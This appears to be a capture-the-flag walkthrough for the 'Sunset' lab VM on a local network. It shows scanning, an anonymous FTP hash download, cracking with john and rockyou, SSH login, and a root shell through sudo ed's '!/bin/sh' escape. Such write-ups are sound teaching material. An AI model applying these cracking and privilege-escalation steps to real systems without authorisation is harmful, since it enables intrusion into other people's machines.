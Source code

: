 # Sunset

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.119	08:00:27:d3:ce:c3	PCS Systemtechnik GmbH
192.168.56.100	08:00:27:29:ed:8e	PCS Systemtechnik GmbH
```

The ip address is `192.168.56.119`, let's scan it.


```bash
root@kali: nmap -v -p21,22,80,8080 -sV -sC -oN nmap.out 192.168.56.119

Nmap scan report for 192.168.56.119
Host is up (0.00024s latency).

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.119:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
80/tcp   closed http
8080/tcp closed http-proxy
MAC Address: 08:00:27:D3:CE:C3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the only ports are `21` and `22`, so let's check ftp first :

we are able to connect to ftp via user `anonymous` :

```bash
tp 192.168.56.119                                    
Connected to 192.168.56.119.
220 pyftpdlib 1.5.5 ready.
Name (192.168.56.119:root): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
229 Entering extended passive mode (|||41299|).
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup

ftp> get backup
local: backup remote: backup
229 Entering extended passive mode (|||36815|).
125 Data connection already open. Transfer starting.
100% |******************************************************************************************|  1062      179.86 KiB/s    00:00 ETA
226 Transfer complete.
```

inside backup file we see this 5 hashes, because it is some how not in a good format

i just copied and pasted each line in a new file called `user.txt`, the hash type can be identified with `hashid` :

```bash
root@kali: hashid -mj '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'

Analyzing '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'
[+] SHA-512 Crypt [Hashcat Mode: 1800][JtR Format: sha512crypt]
```

## 2.Gaining Shell

Just use `john` to crack the password :

```bash
root@kali: john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt user.txt 

Using default input encoding: UTF-8
Loaded 5 password hashes with 2 different salts (2.5x same-salt boost) (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
space            (space)     
cheer14          (sunset)     
sky              (sky)  
```


try different users, but you can only login with user `sunset` :

```bash
root@kali: ssh sunset@192.168.56.119
sunset@192.168.56.119's password: 
Linux sunset 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 28 20:52:38 2019 from 192.168.1.182

sunset@sunset:~$ id
uid=1000(sunset) gid=1000(sunset) groups=1000(sunset),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
```

## 3.Privilege Escalation

Check sudo permissions on this user :

```bash
sunset@sunset:~$ sudo -l
Matching Defaults entries for sunset on sunset:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
```

so we can only run `ed` binary with no password :

```bash
unset@sunset:~$ sudo /usr/bin/ed
id
?
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cd /root

# cat flag.txt
25d7ce0ee3cbf71efbac61f85d0c14fe
```

This is how you can get root on this machine :)
